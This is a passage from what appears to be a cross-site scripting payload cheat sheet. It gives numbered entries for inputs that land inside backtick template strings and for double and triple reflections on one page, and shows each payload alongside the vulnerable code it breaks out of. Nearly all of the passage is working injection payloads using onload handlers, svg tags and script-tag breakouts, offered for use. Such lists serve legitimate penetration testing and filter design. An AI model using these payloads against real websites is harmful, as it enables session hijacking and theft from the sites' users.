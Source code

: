 > Payload number 2 uses when quote escaped by backslash

11. Use when input lands inside backticks delimited strings

```html
${alert(1)}
```

* Example source code

```html
<script>
    var dapos = `REFLECTED_HERE`;
</script>
```

* After input the payload

```html
<script>
    var dapos = `${alert(1)}`;
</script>
```

12. Uses when there is multiple reflections on same page. (Double Reflection)

```html
'onload=alert(1)><svg/1='
'>alert(1)</script><script/1='
*/alert(1)</script><script>/*
```

* After input the payload

```html
<!DOCTYPE html>
<html>
<body>
'onload=alert(1)><svg/1='
...
'onload=alert(1)><svg/1='
</body>
</html>
```

13. Uses when there is multiple reflections on same page. (Triple Reflection)

```html
*/alert(1)">'onload="/*<svg/1='
`-alert(1)">'onload="`<svg/1='
*/</script>'>alert(1)/*<script/1='
```

* After input the payload

```html
<!DOCTYPE html>
<html>
<body>
*/alert(1)">'onload="/*<svg/1='
...
*/alert(1)">'onload="/*<svg/1='
...
*/alert(1)">'onload="/*<svg/1='
</body>
</html>
```

